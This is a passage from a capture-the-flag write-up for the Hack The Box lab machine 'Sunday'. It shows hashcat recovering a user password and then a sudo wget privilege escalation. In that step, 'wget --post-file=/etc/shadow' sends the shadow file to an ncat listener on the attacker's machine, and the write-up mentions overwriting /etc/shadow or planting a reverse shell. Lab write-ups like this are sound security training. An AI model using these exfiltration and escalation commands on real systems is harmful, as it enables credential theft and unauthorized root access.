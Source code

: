 3. Crack w/ `hashcat`
	```
	┌──(root💀kali)-[~/htb/sunday/10.10.10.76/exploit]
	└─# hashcat -a 0 -m 7400 hashes /usr/share/wordlists/rockyou.txt  --show
	$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
	$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:sunday
	```
	- `sammy:cooldude!`
4. Switch to `sammy` w/ `sammy:cooldude!`
	```
	sunny@sunday:/tmp$ su sammy
	```

## Root - Via WGET, replace Shadow file
1. Check sudo access for `sammy`
	```
	sammy@sunday:/tmp$ sudo -l
	User sammy may run the following commands on sunday:
	    (ALL) ALL
	    (root) NOPASSWD: /usr/bin/wget
	```
	- `wget` - has a [GTFOBins Entry](https://gtfobins.github.io/gtfobins/wget/#sudo)
2. Using `wget` to privilege escalate
	1. How does it work?
		- `wget` has a `--post-file=<file>` option that allows us to send the content of the specified file.
		- Since `wget` is running as root because of `sudo`, we are able to post `/etc/shadow`, `/etc/sudoers` or `/root.txt` to our `ncat` listener.
		- `/etc/shadow`
			- Once we obtained `/etc/shadow` file, we are able to crack the hash and login to `root` OR
			- We can replace the password hash for `root` and use `wget` `-O` option to overwrite `/etc/shadow` on `sunday.htb`
		- `/etc/sudoers`
			- Once we obtained `/etc/sudoers`, add a sudoers entry for any user to run `su` as root.
		- `/root/troll`
			- Earlier for user `sammy`, we are able to run `troll` as `root`, replace it w/ a reverse shell
	2. Start listener
		```
		┌──(root💀kali)-[~/htb/sunday/10.10.10.76/loot]
		└─# nc -nvlp 4444 > shadow
		```
	3. `POST` `/etc/shadow` file to `kali`
		```
		sammy@sunday:/tmp$ sudo /usr/bin/wget --post-file=/etc/shadow 10.10.14.31:4444
		
		┌──(root💀kali)-[~/htb/sunday/10.10.10.76/loot]
		└─# nc -nvlp 4444 > shadow.og
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		Ncat: Connection from 10.10.10.76.
		Ncat: Connection from 10.10.10.76:55944.
		```
3. View `shadow` file
	```
	┌──(root💀kali)-[~/htb/sunday/10.10.10.76/loot]
	└─# cat shadow 
	POST / HTTP/1.1
	User-Agent: Wget/1.19.5 (solaris2.11)
	Accept: */*
	Accept-Encoding: identity
	Host: 10.10.14.31:4444
	Connection: Keep-Alive